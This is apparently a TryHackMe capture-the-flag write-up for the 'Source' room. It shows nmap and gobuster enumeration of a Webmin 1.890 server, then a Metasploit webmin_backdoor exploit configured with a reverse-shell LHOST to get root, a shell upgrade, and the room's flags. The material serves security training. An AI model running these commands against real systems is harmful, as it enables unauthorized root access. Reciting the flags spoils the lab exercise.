 
# TryHackMe - Source 

##  Overview
- **Room:** Source  
- **Difficulty:** Easy  
- **Tags:** Enumeration, Webmin, Exploitation, Privilege Escalation

This room focuses on exploiting a vulnerable Webmin service to gain root access.

---

##  Table of Contents
1. [Enumeration](#-enumeration)
2. [Web Enumeration](#-web-enumeration)
3. [Exploitation](#-exploitation)
4. [Post-Exploitation](#-post-exploitation)
5. [Flags](#-flags)
6. [Conclusion](#-conclusion)

---

##  Enumeration

### Nmap Scan
We start by scanning the target with **nmap**:

```bash
sudo nmap -sC -sV -Pn -p- {target_IP}
```

- **-sC**: Run default scripts  
- **-sV**: Detect service versions  

**Results:**

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

 Open ports:  
- **22/tcp** → SSH  
- **10000/tcp** → Webmin  

---

##  Web Enumeration
Visiting `https://{target_IP}:10000` revealed a **Webmin login page**.

- Default credentials were tested → **failed**  
- Directory enumeration with **gobuster** produced no useful results:

```bash
gobuster dir -u https://{target_IP}:10000 -w /usr/share/wordlists/dirb/common.txt
```

---

##  Exploitation

### Searchsploit
We check for Webmin exploits:

```bash
searchsploit webmin
```

Several **RCE exploits** were available. Since the Webmin version is vulnerable, we proceed with **Metasploit**.

### Metasploit
Start `msfconsole` and search for Webmin exploits:

```bash
msf6 > search webmin
```

We use the **Webmin backdoor exploit**:

```bash
use exploit/linux/http/webmin_backdoor
set RHOST {target_IP}
set RPORT 10000
set LHOST tun0
set SSL true
exploit
```

 This immediately provided a **root shell**.

---

##  Post-Exploitation

To upgrade the shell to a stable TTY:

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/anyname.py
python /tmp/anyname.py
```

We now have a fully interactive **root shell**.

---

##  Flags

Retrieve flags from the machine:

```text
user.txt → THM{SUPPLY_CHAIN_COMPROMISE}
root.txt → THM{UPDATE_YOUR_INSTALL}
```

---

##  Conclusion

- Enumerated open ports with `nmap`  
- Identified Webmin service on port 10000  
- Verified vulnerable Webmin version  
- Exploited with **Metasploit `webmin_backdoor`**  
- Achieved **root access** and captured flags  

This room is ideal for practicing **service enumeration** and **Metasploit exploitation**.
